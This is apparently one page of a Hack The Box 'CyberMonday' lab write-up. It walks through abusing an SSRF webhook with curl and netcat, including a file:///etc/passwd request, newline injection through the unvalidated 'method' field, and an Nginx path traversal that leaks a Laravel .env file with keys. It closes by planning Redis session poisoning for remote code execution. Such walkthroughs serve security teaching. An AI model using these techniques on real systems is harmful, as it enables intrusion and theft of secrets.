 # Obtaining More Info

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
**[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)**
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have the ability to [[ssrf|make the web server send requests for us]], the question is what to do with it. The first thing to try would be to [[local-file-inclusion|get files on the system]]:
```
curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "file://etc/passwd", "method": "GET"}' -v

{"status":"error","message":"Only http protocol is allowed"}
```

Not going to be that easy unfortunately. With us only being able to make [[http|HTTP]] requests, the use right now seems limited. Let's use a [[netcat|`netcat`]] listener and send some requests to see what info the webhook is sending.
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "GET"}' -v

GET / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Hmm, not much to go on here. What about a `POST`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "POST"}' -v

POST / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Still very little. Well we've already tried messing around with the `url` with no luck but what about the `method`?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "HMM"}' -v

HMM / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

I don't think `HMM` is a valid HTTP verb (though there are a lot more than you might think). So we can assume the `method` is not being validated, but how far does this go?
```bash
nc -lvnp 8080

curl http://webhooks-api-beta.cybermonday.htb/webhooks/<your guid> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "TEST\ntest 2"}' -v

TEST
test 2 / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Okay, so now we have a way to send data to locations only the server can access. But what can we actually do with this? To figure that out lets first return to the Cybermonday shopping site. Now that we know it's running on [[laravel|Laravel]] we know there's a `.env` file that might contain some useful information. If we look at the headers we also know that the store is running behind an [[nginx|Nginx]] proxy server, which can often be misconfigured to allow for [[path-traversal|path traversal]]. Trying to use this on most paths just results in Laravel receiving the request and providing a `404` response. However if we look at the URL for some of the static images on the site we see there's also an `assets` path available. If you used [[gobuster|`gobuster`]] when first browsing the site you might have also found this directory. Navigating to the directory itself gives us an Nginx `403` message rather than a Laravel `404` which is promising. If we try the path traversal here: 
```
http://cybermonday.htb/assets../.env

APP_NAME=CyberMonday
APP_ENV=local
...
```

We now have an environment file with some very interesting information in it. Among this information is the Laravel `APP_KEY`, and information on both the [[redis|Redis server]] and [[mysql|MySQL server]] this app connects to.

As we can only send data with the webhook and not receive it without a valid HTTP response, the MySQL information is probably not going to be very useful, however Redis has a much [[redis#RESP|simpler protocol]] that doesn't require a back and forth to update information and settings. If you'd like to know more about it you can [read about the Redis RESP protocol here](https://redis.io/docs/reference/protocol-spec/). You might have noticed in the Laravel debug information from the profile page that the app is making use of [[session-poisoning|sessions]]. These sessions will be stored in the Redis server, so if we can find a way to inject a [[php|PHP]] [[deserialization|deserialization]] attack payload into the Redis server, we could potentially have a way to perform [[rce|RCE]] and gain a [[reverse-shell|reverse shell]].

Next: [Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)